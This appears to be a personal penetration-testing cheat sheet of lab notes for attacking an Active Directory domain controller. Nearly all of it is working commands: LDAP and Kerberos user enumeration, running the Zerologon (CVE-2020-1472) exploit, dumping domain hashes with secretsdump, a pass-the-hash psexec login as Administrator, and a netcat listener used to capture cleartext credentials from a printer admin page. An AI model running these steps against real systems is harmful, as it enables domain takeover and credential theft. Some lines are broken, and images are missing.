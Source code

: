 #### windapsearch.py

```bash - kali
cd /opt && sudo git clone https://github.com/ropnop/windapsearch
```

```bash - kali
sudo apt install python3-ldap
```

```bash - kali
cd windapsearch && ./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U
```

```bash - kali
./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U --full | grep Password
```

```bash - kali
./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U > users
```

#### ldapsearch
```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" | grep -i "description"
```

```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" | grep -i "password"
```

```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" > ldapsearch.txt
```

![[Pasted image 20220114104148.png]]

0 means "no lock out policy"

Script to verify user's creds:

##### zerologon
```bash - kali
git clone https://github.com/SecuraBV/CVE-2020-1472
```

```bash - kali
cd CVE-2020-1472 && pip install -r requirements.txt
```

Next, look at the nmap results below to find the CN value:

```bash - kali
tcp_389_ldap_nmap.txt
```

![[Pasted image 20220105211456.png]]

```bash - kali
python3 zerologon_tester.py $DOMAIN_NAME $TARGET
```

![[Pasted image 20220105211656.png]]

```bash - kali
/opt/enum4linux-ng/enum4linux-ng.py $TARGET -A -C
```
  
Now add the target to the hosts file:

```bash - kali
sudo echo '$TARGET $DOMAIN' | sudo tee -a /etc/hosts
```

```bash - kali
sudo apt install golang
```

```bash - kali
go get github.com/ropnop/kerbrute
```

```bash - kali
cd kerbrute
```

```bash - kali
make linux
```

```bash - kali
cd dist
```

```bash - kali
./kerbrute_linux_amd64 userenum -d $DOMAIN --dc $DOMAIN /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

```bash - kali
git clone https://github.com/dirkjanm/CVE-2020-1472
```

```bash - kali
cd CVE-2020-1472
```

```bash - kali
sudo python3 cve-2020-1472-exploit.py $DOMAIN_CONTROLLER_NAME $TARGET
```

   
```bash - kali
secretsdump.py -hashes :$HASH '$DOMAIN/$DOMAIN_CONTROLLER_NAME@$TARGET'
```

Using empty LM hash:
```bash - kali
psexec.py Administrator@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```


#### Printer Admin Page

```bash - kali
sudo rlwrap -cAr nc -lvnp 389
```

Navigate to settings page:

![[Pasted image 20220218175015.png]]

Enter your Kali IP in the Server Address field.

Click update, get clear text creds in listener.



